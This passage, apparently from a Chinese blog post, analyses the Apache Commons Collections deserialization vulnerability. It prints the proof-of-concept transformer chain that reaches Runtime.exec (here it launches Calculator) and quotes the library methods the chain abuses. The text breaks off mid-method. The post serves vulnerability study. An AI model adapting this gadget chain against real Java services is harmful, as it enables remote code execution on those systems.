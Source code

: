 先重点关注这三个部分

![-w519](media/15662017023838/15662839498864.jpg)


首先看poc中的这部分代码
```
Transformer[] transformers = new Transformer[]{
        new ConstantTransformer(Runtime.class),

        new InvokerTransformer("getMethod",
                new Class[]{String.class, Class[].class},
                new Object[]{"getRuntime", new Class[0]}),

        new InvokerTransformer("invoke",
                new Class[]{Object.class, Object[].class},
                new Object[]{null, new Object[0]}),

        new InvokerTransformer("exec",
                new Class[]{String.class},
                new Object[]{"open /Applications/Calculator.app"}),
};
Transformer transformerChain = new ChainedTransformer(transformers);
```

漏洞涉及到的三个方法

org.apache.commons.collections.functors.InvokerTransformer
```
public Object transform(Object input) {
    if (input == null) {
        return null;
    } else {
        try {
            Class cls = input.getClass();
            Method method = cls.getMethod(this.iMethodName, this.iParamTypes);
            return method.invoke(input, this.iArgs);
        } catch (NoSuchMethodException var5) {
            throw new FunctorException("InvokerTransformer: The method '" + this.iMethodName + "' on '" + input.getClass() + "' does not exist");
        } catch (IllegalAccessException var6) {
            throw new FunctorException("InvokerTransformer: The method '" + this.iMethodName + "' on '" + input.getClass() + "' cannot be accessed");
        } catch (InvocationTargetException var7) {
            throw new FunctorException("InvokerTransformer: The method '" + this.iMethodName + "' on '" + input.getClass() + "' threw an exception", var7);
        }
    }
}
```
org.apache.commons.collections.functors.ChainedTransformer
```
public ChainedTransformer(Transformer[] transformers) {
    this.iTransformers = transformers;
}
```
org.apache.commons.collections.functors.ChainedTransformer
```
public Object transform(Object object) {
    for(int i = 0; i < this.iTransformers.length; ++i) {
        object = this.iTransformers[i].transform(object);
```
